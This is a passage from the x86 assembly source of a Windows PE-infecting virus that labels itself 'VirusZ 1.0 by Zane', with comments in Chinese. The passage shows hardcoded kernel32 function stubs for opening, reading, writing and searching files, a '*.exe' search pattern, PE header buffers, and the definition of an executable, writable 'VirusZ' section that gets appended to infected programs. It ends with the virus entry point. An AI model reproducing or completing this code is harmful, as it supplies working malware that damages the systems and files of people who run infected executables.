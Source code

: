     ZSetFilePointer:
    mov FunctionAddress[ebp], 77e58c81h
    jmp FunctionAddress[ebp]

    ZReadFile:
    mov FunctionAddress[ebp], 77e58b82h
    jmp FunctionAddress[ebp]

    ZWriteFile:
    mov FunctionAddress[ebp], 77e59d8ch
    jmp FunctionAddress[ebp]

    ZCloseHandle:
    mov FunctionAddress[ebp], 77e57963h
    jmp FunctionAddress[ebp]

    ZFindFirstFile:
    mov FunctionAddress[ebp], 77e55d9eh
    jmp FunctionAddress[ebp]

    ZFindNextFile:
    mov FunctionAddress[ebp], 77e55e67h
    jmp FunctionAddress[ebp]

    ZFindClose:
    mov FunctionAddress[ebp], 77e58eaah
    jmp FunctionAddress[ebp]
    
;==========================================<<函数声明结束

;==========================================>>病毒数据
; 这些都是病毒程序中用到的数据
    Ret_Entry dd 0h
    Ori_Entry dd 0h
    FindFile db "*.exe", 0h
    FindData WIN32_FIND_DATA <0>
    FindHandle dd 0h
    OpenHandle dd 0h
    ReadCount dd 0h
    PEAddress dd 0h
    PEHead IMAGE_NT_HEADERS <0>
    SectionTable db 280h dup (0)
    HeadLength dd 0h
    Sectionaddress dd 0h
    VirusLength dd 0h
    FunctionAddress dd 0h

    VirusZSection struc
        SectionName db "VirusZ", 0h, 0h
        VirtualSize dd 0h
        VirtualAddress dd 0h
        RawSize dd 0h
        RawOffset dd 0h
        dd 0h, 0h, 0h
        SectionFlags dd 0e0000020h
    VirusZSection ends

    NewSection VirusZSection <>   
;==========================================<<病毒数据结束

    VirusName db 0h, "VirusZ 1.0 by Zane", 0h ; 版本信息
virus_end:
VirusZ ends
    end virus_start ; 从病毒代码入口开始执行